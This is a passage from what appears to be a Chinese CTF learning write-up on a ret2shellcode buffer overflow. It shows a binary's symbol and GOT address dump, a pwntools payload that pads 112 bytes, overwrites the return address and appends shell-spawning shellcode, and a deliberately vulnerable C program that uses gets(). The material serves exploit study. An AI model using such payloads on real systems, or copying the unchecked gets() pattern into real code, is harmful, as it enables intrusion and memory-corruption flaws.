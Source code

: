 ```
_start: 134513712
_fp_hw: 134514264
stdout@@GLIBC_2.0: 134520928
__bss_start: 134520880
main: 134513965
__TMC_END__: 134520880
_init: 134513540
printf: 134513600
plt.printf: 134513600
gets: 134513616
plt.gets: 134513616
puts: 134513632
plt.puts: 134513632
__gmon_start__: 134513648
plt.__gmon_start__: 134513648
__libc_start_main: 134513664
plt.__libc_start_main: 134513664
setvbuf: 134513680
plt.setvbuf: 134513680
strncpy: 134513696
plt.strncpy: 134513696
got.__gmon_start__: 134520856
got.stdin: 134520896
got.stdout: 134520928
got.printf: 134520844
got.gets: 134520848
got.puts: 134520852
got.__libc_start_main: 134520860
got.setvbuf: 134520864
got.strncpy: 134520868
```

然后发现程序中不存在mprotect...寄。但是程序动态链接了`libc.so.6`且存在puts()函数，应该可以通过定位libc来达成目标。

但是停停，既然没有开NX为什么不直接把shellcode放到上一层的栈帧里面呢？

新策略是直接把112字节填满，然后依次放入上一个栈帧的ESP以及shellcode，这样shellcode放到了上一个栈帧的屁股上，也就是其ESP的位置。

```python
pwn_obj = process("./ret2shellcode")
target_addr = 外层ESP
payload = b"#" * 112 + p32(target_addr) + asm(shellcraft.sh())
pwn_obj.sendline(payload)
pwn_obj.interactive()
```

但是这代表需要覆盖main()函数的外一层，按照gdb的信息就是__libc_start_call_main，但是我试了很久也没有成功，gdb给出的外部ESP也已经不在0xfffdd000~0xffffe000的栈地址范围内了，而且感觉对系统不太好，如果gets()外一层不是main()，而是一个随便啥函数应该也一样。所以现在重新编写一个C语言程序来观察一下这个猜想是否正确：

```c
#include <stdio.h>

void func() {
    char func_buf[100];
    printf("this is ret2shellcode.mtx! gets: ");
    gets(func_buf);
    puts("goodbye");
}

int main() {
    char main_buf[100] = {0};
    func();
    return 0;
}
```
